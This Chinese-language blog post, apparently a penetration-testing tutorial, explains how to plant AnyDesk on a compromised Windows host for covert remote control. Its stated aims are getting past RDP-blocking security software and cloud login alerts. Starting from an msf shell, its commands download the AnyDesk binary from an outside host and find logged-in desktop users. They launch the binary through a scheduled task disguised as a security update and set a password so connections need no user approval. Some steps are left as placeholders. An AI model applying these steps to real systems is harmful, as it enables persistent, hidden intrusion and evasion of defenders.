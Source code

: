 # 使用anydesk做远控


> anydesk是类似teamviewer的远程管理软件，但是他不用安装且体积小



### 场景举例

- 有云锁，护卫神等禁止3389登录时
- 类似阿里云这种，登录3389会报警
- 连接内网中可以出网的windows机器



### 注意事项

- 启动anydesk的权限需要桌面用户权限，比如，IIS做中间件的环境中，拿到了webshell一般都
  是没有桌面用户权限的，如果启动anydesk不会成功
- 启动anydesk时桌面不能被注销
- 有可能连接上去是黑屏，这个是因为该桌面用户退出远程桌面但没有注销，此时，除非能用
  winlogon启动anydesk，否则没法使用屏幕





### 使用方法

1. 习惯性的使用https://www.virustotal.com/gui扫描一下

2. 假设获取到了目标系统的一个msf的shell

   ```bash
   # 下载anydesk到一个公共目录下
   (New-Object System.Net.WebClient).DownloadFile("https://download.anydesk.com/AnyDesk.exe?_ga=2.176752485.1141763109.1599703967-925913843.1599703967","C:\Users\Public\Desktop\anydesk.exe")
   
   # 确定有哪些用户正在使用桌面???
   (((Get-WmiObject -Class Win32_Process -Filter 'Name="explorer.exe"').GetOwner().))
   
   # 启动一个计划任务，启动的用户为上个步骤选中的用户???
   schtasks /Create /TN Windwos_Security_Update /SC monthly /tr "c:\......"
   
   # 先执行一次计划任务，生成配置文件
   schtasks /run /tn Windwos_Security_Update
   
   # 等待几秒，等anydesk成功连接到网络，再把anydesk进程杀掉，dir看用户下面是否生成配置文件，然后再service.conf里面的添加密码(AnyDeskGetAccess)
   
   
   # 查看anydeskID并启动anydesk
   
   
   # 不需要到目标机器上点击接受，输入密码即可
   
   
   # 分享一个高权限webshell下可以使用的powershell脚本
   
   ```

   <img src="http://image.xpshuai.cn/image-20200910104429278.png" ></img>

   

















































---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/%E4%BD%BF%E7%94%A8anydesk%E5%81%9A%E8%BF%9C%E6%8E%A7/  

